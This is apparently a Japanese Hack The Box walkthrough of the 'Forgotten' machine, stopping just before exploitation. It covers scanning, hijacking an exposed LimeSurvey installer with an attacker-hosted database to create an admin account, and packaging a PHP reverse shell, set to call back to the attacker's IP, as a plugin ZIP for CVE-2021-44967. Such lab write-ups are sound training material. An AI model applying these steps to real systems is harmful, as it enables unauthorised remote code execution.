import CollapsibleCode from '../../components/CollapsibleCode.astro';

> [!caution]
> この記事は合法的なペネトレーションテスト環境（Hack The Box）での攻略内容です。許可のないシステムへの攻撃は違法です。

## Overview

Forgotten は Linux マシンです。LimeSurvey のインストーラが露出しており、管理者アカウントを作成してプラグインアップロードによる RCE でDockerコンテナ内のシェルを取得します。環境変数からクレデンシャルを取得し、Docker Breakout でホストの root を取得します。

- **OS**: Linux (Docker: Debian 11 / Host: Ubuntu 22.04)
- **Difficulty**: Easy
- **Key Topics**: LimeSurvey, CVE-2021-44967, Docker Breakout, SUID

## Enumeration

### Nmap

全ポートをスキャンします。

```bash
┌──(kali㉿kali)-[~/htb/forgotten]
└─$ mkdir nmap

┌──(kali㉿kali)-[~/htb/forgotten]
└─$ nmap -Pn -p- --min-rate=3000 -T4 -oA nmap/allports 10.129.232.159
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-10 11:38 -0400
Warning: 10.129.232.159 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.232.159
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 32.51 seconds

```

22番ポートと80番ポートが開いていますね。詳細スキャンをかけます。

```bash
┌──(kali㉿kali)-[~/htb/forgotten]
└─$ nmap -Pn -p22,80 -sC -sV -oA nmap/detailed 10.129.232.159
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-10 11:40 -0400
Nmap scan report for 10.129.232.159
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 28:c7:f1:96:f9:53:64:11:f8:70:55:68:0b:e5:3c:22 (ECDSA)
|_  256 02:43:d2:ba:4e:87:de:77:72:ce:5a:fa:86:5c:0d:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.12 seconds

```

`http-title: 403 Forbidden` と出ており、ルートディレクトリにはアクセス出来ていなさそうです。

また、`Host: 172.17.0.2`とあり、Dockerで動いていそうですね。

### Directory Busting

feroxbuster でディレクトリを探索します。

<CollapsibleCode>
```bash
┌──(kali㉿kali)-[~/htb/forgotten]
└─$ feroxbuster -u http://10.129.232.159 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,html,txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.232.159/
 🚩  In-Scope Url          │ 10.129.232.159
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      317c http://10.129.232.159/survey => http://10.129.232.159/survey/
302      GET        0l        0w        0c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      325c http://10.129.232.159/survey/plugins => http://10.129.232.159/survey/plugins/
301      GET        9l       28w      323c http://10.129.232.159/survey/admin => http://10.129.232.159/survey/admin/
301      GET        9l       28w      321c http://10.129.232.159/survey/tmp => http://10.129.232.159/survey/tmp/
301      GET        9l       28w      325c http://10.129.232.159/survey/modules => http://10.129.232.159/survey/modules/
301      GET        9l       28w      324c http://10.129.232.159/survey/themes => http://10.129.232.159/survey/themes/
301      GET        9l       28w      324c http://10.129.232.159/survey/upload => http://10.129.232.159/survey/upload/
301      GET        9l       28w      324c http://10.129.232.159/survey/assets => http://10.129.232.159/survey/assets/
[####################] - 71m  1080064/1080064 0s      found:8       errors:269000
[####################] - 68m   120000/120000  29/s    http://10.129.232.159/
[####################] - 70m   120000/120000  29/s    http://10.129.232.159/survey/
[####################] - 70m   120000/120000  28/s    http://10.129.232.159/survey/tmp/
[####################] - 70m   120000/120000  28/s    http://10.129.232.159/survey/plugins/
[####################] - 70m   120000/120000  28/s    http://10.129.232.159/survey/modules/
[####################] - 70m   120000/120000  28/s    http://10.129.232.159/survey/themes/
[####################] - 70m   120000/120000  28/s    http://10.129.232.159/survey/admin/
[####################] - 70m   120000/120000  28/s    http://10.129.232.159/survey/assets/
[####################] - 70m   120000/120000  28/s    http://10.129.232.159/survey/upload/

```
</CollapsibleCode>

`/survey/` 配下に LimeSurvey の標準的なディレクトリ構成（`admin`, `plugins`, `themes`, `upload`, `tmp` など）が確認できました。

### LimeSurvey Installer

ルート (`/`) は 403 Forbidden ですが、`/survey/` にアクセスすると `/survey/index.php?r=installer/welcome` にリダイレクトされ、**LimeSurvey** のインストーラ画面が表示されました。



LimeSurveyはWebアンケート作成ツールで、多くの企業や大学などで広く使われているそうです。

https://www.limesurvey.org/ja

LimeSurveyのインストーラーが露出しているので、自分でこれからインストールできそうですね。

LimeSurveyをあまり良く知らないので、どういう攻撃経路がありそうかはまだぱっとわからないですが、インストール時に管理者アカウントなどが作れるのであれば、管理者権限でRCEなどができるかもしれません。

とりあえず、`Start Installation` を押してインストーラーを進めてみます。

ライセンス（GPL）の確認画面が表示されました。`I accept` を押して進めます。



Pre-installation check の画面で、**LimeSurvey 6.3.7** であることがわかりました。全ての要件を満たしているようです。



次に、Database configuration の画面が表示されました。DB の接続情報を入力する必要があります。



`Your database server user name. In most cases "root" will work.`とあったので、 `Database user`は`root`にしました。
その他の設定項目は以下のとおりです。

|フィールド|入力値|
| --- | --- |
|Database type| MySQL(変更なし)|
|Database location| `localhost`(変更なし)|
|Database user|`root`|
|Database password| (空パスワード)|
|Database name|`limesurvey`|
|Table prefix|`lime_`(変更なし)|



root / 空パスワードで DB 接続に成功しました。`limesurvey` データベースは存在しないため、作成を求められます。`Create database` を押して進めます。



しかし、データベースの作成に失敗しました。



`CDbConnection failed to open the DB connection` とのことで、root / 空パスワードでは DB に接続できなかったようです。
いくつか考えられるクレデンシャルを試してみたのですが、うまくいきませんでした。

インストーラーでどこのDBに接続するかを指定できるということは、自分で制御できるDBでも良さそうです。

ので、kaliマシン上でDBを立てて、そこに接続するようにやってみます。
ここではDockerで立ててみます。

https://www.kali.org/docs/containers/installing-docker-on-kali/

また、mysqlの建て方はこちらを参考にしました。

https://hub.docker.com/_/mysql

以下のコマンドをkali上で実行します。

```bash
┌──(kali㉿kali)-[~/htb/forgotten]
└─$ sudo docker run --name some-mysql -e MYSQL_ROOT_PASSWORD=my-secret-pw -e MYSQL_DATABASE=limesurvey -p 3306:3306 -d mysql:8.0
Unable to find image 'mysql:8.0' locally
8.0: Pulling from library/mysql
74a8e4bbd9fe: Pull complete
8814198b348b: Pull complete
0644bff8d158: Pull complete
bfb2a1b21556: Pull complete
7aee539d1d90: Pull complete
3ca1b3148b2f: Pull complete
d6b535e661c2: Pull complete
25e72585209f: Pull complete
2b38f4979592: Pull complete
85b08b5b9055: Pull complete
1b381ad27e95: Pull complete
Digest: sha256:a3dff78d876222746a0bacc36dd7e4bf9e673c85fb7ee0d12ed25bd32c43c19b
Status: Downloaded newer image for mysql:8.0
3904d6f22f23dd7603b3f1fc92d6f310c5a9486b49d7354ff62c259c6c581f00

┌──(kali㉿kali)-[~/htb/forgotten]
└─$ sudo docker ps
CONTAINER ID   IMAGE       COMMAND                  CREATED         STATUS         PORTS                                                  NAMES
3904d6f22f23   mysql:8.0   "docker-entrypoint.s…"   4 minutes ago   Up 4 minutes   0.0.0.0:3306->3306/tcp, :::3306->3306/tcp, 33060/tcp   some-mysql

```

3306でmysqlが動いていますね。

では、インストーラーでKaliのIPを指定して、このDBを使わせるようにします。

Database location を Kali の IP (`10.10.16.52`) に変更し、先ほど Docker で立てた MySQL に接続させます。



Kali 上の MySQL への接続に成功し、`limesurvey` データベースが認識されました。`Populate database` を押してテーブルを作成します。



DB の populate に成功し、Administrator settings の画面に進みました。管理者アカウントを自分で作成できます。



パスワードを `admin123` に変更し、他はデフォルトのまま `Next` を押します。

インストールが完了しました。`admin` / `admin123` で管理画面にログインできます。



`Administration` を押すと、ログインページが表示されました。



`admin:admin123` でログインします。

管理画面にログインできました。



フッターから正確なバージョンは `6.3.7+231127` であることが確認できます。



### CVE選定

ここで、LimeSurvey 6.3.7のCVE調査をしました。

やはりLimeSurveyにはいくつかCVEがあるようですね。

**CVE-2021-44967**

https://nvd.nist.gov/vuln/detail/CVE-2021-44967

これはRCEに関するCVEのようです。管理者権限を持つユーザが、悪意のあるPHPファイルを含んだZIPをプラグインとしてインストールすることで、サーバ上でRCEが可能になるようですね。

 `LimeSurvey 6.3.7 CVE` で調べたら出てきたのですが、内容を見てみると`LimeSurvey 5.2.4` と書いてあり、あれ？と一瞬なりました。

よく読んでみると、ベンダー側が「これは仕様である」と主張しているため、修正されず...ということらしいです。6.3.7でも使えそうですね。

**CVE-2024-42902**

https://nvd.nist.gov/vuln/detail/CVE-2024-42902

こちらもRCEの脆弱性のようですね。バージョン 6.6.2以前に影響する新しめの脆弱性のようです。

`js_localize.php`の`lng`というパラメータに対するサニタイズが不十分であるため、LFIやRCEができるとのことです。

**CVE-2024-39063**

https://nvd.nist.gov/vuln/detail/CVE-2024-39063

これはCSRFによる管理者権限を悪用できる脆弱性のようです。LimeSurveyが使用しているYiiフレームワークのCSRFトークン検証が不適切であることから、
ログイン中の管理者にURLを踏ませることで意図しない動作をさせることができるようです。

これらの中では、`CVE-2021-44967`が一番使えそうですね（既に管理者権限持っているので）。

### Exploit準備

`CVE-2021-44967`では、`config.xml`と悪意のphpファイルがあればいいはずなので、これらを用意します。
まず、`config.xml`ですが、これは以下を参考にします。

https://github.com/LimeSurvey/LimeSurvey/blob/master/application/core/plugins/Authwebserver/config.xml

この公式の`config.xml`を、名前だけ`myPlugin`に変えて使いました。

また、phpはKaliに入っている`php-reverse-shell.php`を使います。

```bash
┌──(kali㉿kali)-[~/htb/forgotten]
└─$ ls /usr/share/webshells/php
findsocket  php-backdoor.php  php-reverse-shell.php  qsd-php-backdoor.php  simple-backdoor.php

```

では、プラグインを作成していきます。

```bash
┌──(kali㉿kali)-[~/htb/forgotten]
└─$ mkdir myPlugin

┌──(kali㉿kali)-[~/htb/forgotten]
└─$ cd myPlugin

┌──(kali㉿kali)-[~/htb/forgotten/myPlugin]
└─$ wget https://raw.githubusercontent.com/LimeSurvey/LimeSurvey/refs/heads/master/application/core/plugins/Authwebserver/config.xml
--2026-03-11 06:34:15--  https://raw.githubusercontent.com/LimeSurvey/LimeSurvey/refs/heads/master/application/core/plugins/Authwebserver/config.xml
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 774 [text/plain]
Saving to: 'config.xml'

config.xml                              100%[============================================================================>]     774  --.-KB/s    in 0s

2026-03-11 06:34:16 (81.3 MB/s) - 'config.xml' saved [774/774]


┌──(kali㉿kali)-[~/htb/forgotten/myPlugin]
└─$ vim config.xml

┌──(kali㉿kali)-[~/htb/forgotten/myPlugin]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .

┌──(kali㉿kali)-[~/htb/forgotten/myPlugin]
└─$ vim php-reverse-shell.php


```
`config.xml`に関しては、`<name>` タグの部分を`myPlugin`に書き換えました。
また、`php-reverse-shell.php`はIPを10.10.16.52, ポートを4444に書き換えています。

zipにします。

```bash
┌──(kali㉿kali)-[~/htb/forgotten/myPlugin]
└─$ cd ..

┌──(kali㉿kali)-[~/htb/forgotten]
└─$ zip -r myPlugin.zip myPlugin
  adding: myPlugin/ (stored 0%)
  adding: myPlugin/config.xml (deflated 55%)
  adding: myPlugin/php-reverse-shell.php (deflated 59%)

```

## Exploitation

